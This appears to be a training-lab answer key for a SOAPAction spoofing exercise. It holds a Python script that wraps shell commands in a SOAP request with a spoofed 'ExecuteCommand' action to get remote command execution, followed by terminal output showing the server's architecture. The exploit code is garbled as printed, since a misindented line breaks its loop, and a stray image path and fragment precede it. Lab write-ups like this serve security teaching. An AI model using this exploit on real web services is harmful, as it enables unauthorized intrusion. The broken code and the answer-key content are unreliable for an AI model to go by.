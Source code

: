 Answer: `Method`

# SOAPAction Spoofing

## Question 1

### "Exploit the SOAPAction spoofing vulnerability and submit the architecture of the web server as your answer. Answer options (without quotation marks): "x86\_64", "x86""

After spawning the target machine, students need to use the "automate.py" script provided at the end of the section, changing "<TARGET IP>" with `STMIP`:

Code: python

```python
import requests

while True:
    cmd = input("$ ")
payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://STMIP:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

Students then need to run the script and issue the `uname` command with the `-i` (short version of `--hardware-information`) option:

Code: shell

```shell
python3 automate.py
uname -i
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 automate.py

$ uname -i
b'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope
	xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:tns="http://tempuri.org/"
	xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
	<soap:Body>
		<LoginResponse
			xmlns="http://tempuri.org/">
			<success>true</success>
			<result>x86_64\n</result>
		</LoginResponse>
	</soap:Body>
</soap:Envelope>'
```
